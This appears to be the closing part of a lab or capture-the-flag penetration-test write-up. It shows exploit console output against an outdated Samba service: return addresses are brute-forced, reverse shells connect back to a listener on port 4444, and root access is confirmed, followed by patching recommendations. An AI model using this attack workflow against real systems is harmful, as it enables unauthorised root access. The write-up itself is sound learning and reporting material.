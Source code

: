 # Result :
```
[*] Started reverse TCP handler on 192.168.1.8:4444 
[*] 192.168.1.9:139 - Trying return address 0xbffffdfc...
[*] 192.168.1.9:139 - Trying return address 0xbffffcfc...
[*] 192.168.1.9:139 - Trying return address 0xbffffbfc...
[*] 192.168.1.9:139 - Trying return address 0xbffffafc...
[*] 192.168.1.9:139 - Trying return address 0xbffff9fc...
[*] 192.168.1.9:139 - Trying return address 0xbffff8fc...
[*] 192.168.1.9:139 - Trying return address 0xbffff7fc...
[*] 192.168.1.9:139 - Trying return address 0xbffff6fc...
[*] Command shell session 1 opened (192.168.1.8:4444 -> 192.168.1.9:1025) at 2024-12-24 02:33:29 +0200

[*] Command shell session 2 opened (192.168.1.8:4444 -> 192.168.1.9:1026) at 2024-12-24 02:33:31 +0200
[*] Command shell session 3 opened (192.168.1.8:4444 -> 192.168.1.9:1027) at 2024-12-24 02:33:32 +0200
[*] Command shell session 4 opened (192.168.1.8:4444 -> 192.168.1.9:1028) at 2024-12-24 02:33:33 +0200
   
```
---

### 4. Shell Access
- Multiple reverse shells established
- Root access achieved immediately
- Connection ports: 1025-1028

## 🏆 Success Verification
```bash
whoami
# Output: root
```

## 🔑 Key Takeaways
1. Outdated Samba version led to successful exploitation
2. Multiple critical vulnerabilities in core services
3. Root access achieved through SMB exploitation
4. No additional privilege escalation required

## 🛡️ Security Recommendations
1. Upgrade Samba to latest stable version
2. Disable SSHv1 protocol
3. Update Apache web server
4. Implement proper access controls
5. Regular security patches and updates

---